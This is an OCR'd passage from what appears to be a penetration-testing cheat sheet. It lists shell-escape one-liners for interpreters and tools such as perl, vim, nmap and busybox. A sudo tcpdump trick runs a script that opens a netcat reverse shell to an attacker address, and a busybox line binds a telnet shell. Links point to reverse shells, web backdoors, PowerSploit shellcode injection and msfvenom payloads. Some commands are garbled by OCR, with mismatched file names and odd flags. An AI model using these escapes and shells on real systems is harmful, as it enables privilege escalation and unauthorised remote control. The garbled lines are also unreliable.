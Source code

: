      -   echo os.system('/bin/bash')

     -   /bin/sh -i

     -   perl —e 'exec "/bin/sh";'

     -   perl: exec "/bin/sh";

     -   ruby: exec "/bin/sh"

     -   lua: os.execute('/bin/sh')

     -   (From within IRB)  
         exec "/bin/sh"

     -   (From within vi)  
         :!bash

     -   From within vim  
         Breaking out of vim is done by ':!bash':

     -   (From within vi)  
         :set shell=/bin/bash:shell

     -   (From within nmap)  
         !sh

     -   (From within tcpdump)  
         echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ &gt;
         /tmp/.test  
         chmod +x /tmp/.test  
         sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst
         –Z root

     -   from busybox  
         /bin/busybox telnetd -|/bin/sh -p9999

-   Pen test monkey PHP reverse shell  
    [*http://pentestmonkey.net/tools/web-shells/php-reverse-shel*](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

-   php-findsock-shell - turns PHP port 80 into an interactive shell  
    [*http://pentestmonkey.net/tools/web-shells/php-findsock-shell*](http://pentestmonkey.net/tools/web-shells/php-findsock-shell)

-   Perl Reverse Shell  
    [*http://pentestmonkey.net/tools/web-shells/perl-reverse-shell*](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

-   PHP powered web browser Shell b374k with file upload etc.  
    [*https://github.com/b374k/b374k*](https://github.com/b374k/b374k)

-   Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell 
    https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1
    
-   Web Backdoors from Fuzzdb (
    https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors

-   Creating Meterpreter Shells with MSFVenom - http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/
      